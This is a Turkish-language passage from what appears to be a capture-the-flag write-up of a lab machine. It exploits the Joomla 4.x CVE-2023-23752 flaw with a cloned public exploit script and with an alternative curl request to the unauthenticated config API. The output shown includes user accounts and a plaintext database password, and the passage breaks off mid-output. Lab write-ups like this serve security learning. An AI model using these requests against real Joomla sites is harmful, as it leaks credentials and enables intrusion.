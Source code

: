 Kısa bir Google aramasından sonra [bu](https://github.com/Acceis/exploit-CVE-2023-23752) repoya denk geldim. Burada, Joomla! 4.0.0-4.2.7 sürümlerinde mevcut olan bir zafiyet için geliştirilmiş bir exploit bulunmaktaydı.

Web tarayıcısında [http://dev.devvortex.htb/administrator/manifests/files/joomla.xml](http://dev.devvortex.htb/administrator/manifests/files/joomla.xml) adresine gittiğimde, hedef makinede kurulu olan Joomla! sürümünün 4.2.6 olduğunu, yani bu exploit ile şansımı deneyebileceğimi düşündüm.

Bunun için bahsettiğim bu repoyu yerel makineme yükledim:

```bash
git clone https://github.com/Acceis/exploit-CVE-2023-23752
```

Ardından aşağıdaki komutu çalıştırdım:

```bash
ruby ./exploit-CVE-2023-23752/exploit.rb http://dev.devvortex.htb
```

```text title="Output" hl_lines="15 16"
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

Başka bir yöntem [bu](https://vulncheck.com/blog/joomla-for-rce) sayfada bahsedildiği gibi aşağıdaki cURL sorgusunu gerçekleştirmek olabilir:

```bash
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq .
```

```json title="Output" hl_lines="22 30"
{
  {
    "type": "application",
    "id": "224",
    "attributes": {
      "dbtype": "mysqli",
      "id": 224
    }
  },
  {
    "type": "application",
    "id": "224",
    "attributes": {
      "host": "localhost",
      "id": 224
    }
  },
  {
    "type": "application",
```